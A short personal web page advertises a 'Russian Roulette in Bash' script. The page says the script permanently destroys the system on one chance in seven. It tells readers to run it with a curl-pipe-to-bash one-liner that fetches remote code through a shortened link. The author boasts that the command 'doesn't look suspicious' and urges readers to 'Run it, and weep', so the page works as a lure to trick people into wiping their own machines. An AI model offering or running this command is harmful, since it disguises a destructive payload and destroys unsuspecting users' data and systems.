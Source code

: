 ### [Home](https://thycowlord.github.io)




# Russian Roulette in Bash
## The code
Simple, and easy. Unstoppable once it has started. You can find the code [here.](https://github.com/ThyCowLord/ThyCowLord.github.io/blob/master/code/bashyoheadin.txt).

## How it works
It has seven barrels. If the random number is four, the system is __permanently destroyed.__

## Execution
To run it type: 
> bash <(curl -s -L https://git.io/vArE3).

It doesn't look suspicious, does it?
Run it, and weep.
